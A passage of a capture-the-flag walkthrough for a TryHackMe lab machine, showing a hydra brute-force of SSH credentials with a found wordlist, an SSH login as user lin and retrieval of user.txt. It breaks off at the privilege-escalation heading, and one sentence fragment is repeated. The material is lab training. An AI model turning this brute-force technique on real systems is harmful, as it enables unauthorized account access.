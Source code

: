 So, the answer should be obvious :p

## Task 4) What is the users password? 
We found a file with a couple of passwords in task 2. We can now try to brute force the SSH login by using these passwords with the help of hydra.

```console
berkankutuk@thm:~$ hydra -l lin -P locks.txt 10.10.225.88 -t 4 ssh -V
...
[22][ssh] host: 10.10.225.88   login: lin   password: <will_be_shown_here>
```

The password will be shown inside the `<will_be_shown_here>`.

## Task 5) user.txt
We should now have the Lin's password which we can use to SSH!

When prompted for the password, simply paste the found password(password inputs are by default hid, so dont punch your monitor if you can't see anything pasted) and hit enter. 
```console
berkankutuk@thm:~$ ssh lin@10.10.225.88
lin@10.10.225.88's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
```

Great, we are in!

Lets take a look at her files
default hid, so dont punch your monitor if you can't see anything pasted) and hit enter. 
```console
lin@bountyhacker:~$ ls
user.txt
```
Ah, we found the file!

Lets see the contents
```console
lin@bountyhacker:~$ cat user.txt
THM{...}
```
Aaand we got the flag.

## Task 6) root.txt
Finally the fun part. Privilige escalation!

